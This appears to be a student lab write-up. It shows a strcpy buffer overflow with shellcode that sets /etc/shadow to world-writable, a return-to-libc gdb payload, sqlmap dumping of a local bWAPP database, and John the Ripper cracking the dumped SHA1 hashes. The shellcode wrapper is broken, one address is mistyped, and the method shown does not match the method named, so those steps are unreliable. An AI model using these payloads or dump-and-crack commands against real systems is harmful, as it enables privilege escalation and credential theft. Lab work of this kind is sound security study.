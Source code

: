 # TangTamNhu
# Lab #1, 20110431, Tang Tam Nhu, INSE3308E_03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  
Description text (optional)
- We'll create 2 file `taskbuffer.c` and `shellcode.c` that contains 2 code content above
- Here is the stack frame `taskbuffer.c` program:
![stackframe](./img/image-1.png)

- Compile `taskbuffer.c` program and `shellcode.c` program to executable code.
      
![img0](./img/image-2.png)

- We will use Code Insert to insert shellcode directly into the program.
- We will create a payload that includes:
- First 16 bytes to fill the buffer.
- The shellcode address to override the program's return address.
- Use an older bash and turn off randomly given stack value.

![img1](./img/image-3.png)

- Create environmet variable `nhu` with `export`
  
![img2](./img/image-4.png)

- We need to find the address of `system`, `exit` and `nhu` variable and load `taskbuffer.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `nhu`: `0xffffde58` will be inserted with format `\x58\xde\xff\xff`
 
![img3]()

- Examine the stack frame. We need to add 20 bytes of padding, followed by the system address (4 bytes), exit (4 bytes), and preload (4 bytes). Thus, this is our directive:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x58\xde\xff\xff')")
```
![img4]()


output screenshot (optional)

- Before
  
![img5]()

- After

![win]()


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: 
- Use the command below to get database
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --batch
```
![sql2](./img/image-5.png) 

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: 
- Use the command below to get tables
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --tables --batch

```
![sql3](./img/image-6.png)

- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dump --batch
```
![sql4](./img/image-8.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- We already dumpped and stored the hashed password to a file for further exploit.
- To identity the hash algorithm, we will use hashid which is a library in python (hashid -mj hash_pw.txt)
![alt text](./img/image-9.png)
- According to Hashid, john, notably the raw-sha1 format, can be used to crack the encryption: https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-UBUNTU
```
    john --format=Raw-SHA1 hash_pw.txt
```
![alt text](./img/image-10.png)
